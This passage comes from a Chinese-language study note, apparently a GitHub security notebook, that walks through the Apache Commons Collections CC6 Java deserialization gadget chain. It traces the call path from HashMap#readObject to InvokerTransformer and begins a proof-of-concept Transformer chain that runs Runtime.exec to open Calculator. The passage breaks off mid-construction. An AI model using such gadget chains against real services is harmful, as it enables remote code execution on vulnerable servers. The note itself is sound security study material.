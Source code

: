 
这里搞一张白日梦组长的图助于理解，上面两条就是 [CC1-TransformedMap](https://github.com/reidmu/sec-note/blob/main/Java-sec/CC1-TransformedMap.md) 和 [CC1-LazyMap](https://github.com/reidmu/sec-note/blob/main/Java-sec/CC1-LazyMap.md) 的调用链，红框开始就是CC6的调用链。


<div align=center><img width="900" alt="image" src="https://user-images.githubusercontent.com/84888757/205502970-d8c7e189-7a3f-48ac-822c-7d0405cac18e.png" /></div>

通过对 `LazyMap#get` 进行 `Find Usage` 找到了 `TiedMapEntry#getValue` ：

![image](https://user-images.githubusercontent.com/84888757/205503585-35da8367-b8fd-46ff-851e-49efbfc3718f.png)

`org.apache.commons.collections.keyvalue.TiedMapEntry#getValue`  ⽅法中调⽤了 `this.map.get` ；

而 `org.apache.commons.collections.keyvalue.TiedMapEntry#hashCode` ⽅法中又调⽤了 `getValue` ⽅法：

<div align=center><img width="769" alt="image" src="https://user-images.githubusercontent.com/84888757/205504343-57b506d7-5a20-4d40-87f1-5da4a8998890.png" /></div>

所以，想触发 `LazyMap` 利⽤链，就要找到哪⾥调⽤了 `TiedMapEntry#hashCode` 。

我们要找的利用链如下：
1. `xxx#readObject` ->  ... -> `yyy#bb`
2. `TiedMapEntry#hashCode` 
3. `TiedMapEntry#getValue`
4. `LazyMap#get`
5. `ChainedTransformer#transform`
6. `InvokerTransformer#transform`

`ysoserial` 中，`CC6` 利用链如下：
1. `java.util.HashSet#readObject `
2. `HashMap#put()`
3. `HashMap#hash(key)`
4. `TiedMapEntry#hashCode()`
5. `TiedMapEntry#getValue`
6. `LazyMap#get`
7. `ChainedTransformer#transform`
8. `InvokerTransformer#transform`

🔔 看到 `HashMap#put()` -> `HashMap#hash(key)` 的调用，有没有想起我们曾经学过的 `URLDNS` 。

实际上，在 `java.util.HashMap#readObject` 中就可以找到 `HashMap#hash()` 的调⽤，所以可以去掉最前⾯的两次调⽤：

<div align=center><img width="767" alt="image" src="https://user-images.githubusercontent.com/84888757/205504797-530de851-7b1b-4d77-8b1d-55fdb36627f7.png" /></div>


<div align=center><img width="767" alt="image" src="https://user-images.githubusercontent.com/84888757/205504871-26fdf4bb-caca-4b8a-b44c-211f36d98f9e.png" /></div>


# 0x03 构造CC6 Gadget POC
## 3.1 构造恶意LazyMap
⾸先，把恶意 `LazyMap` 构造出来:
```
Transformer[] transformers = new Transformer[] {
        new ConstantTransformer(Runtime.class),
        new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
        new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
        new InvokerTransformer("exec", new Class[]{String.class}, new Object[] {"/System/Applications/Calculator.app/Contents/MacOS/Calculator"}),
        new ConstantTransformer(1),
};

Transformer transformerChain = new ChainedTransformer(transformers);

// 创建一个 map ，不用添加 Entry
```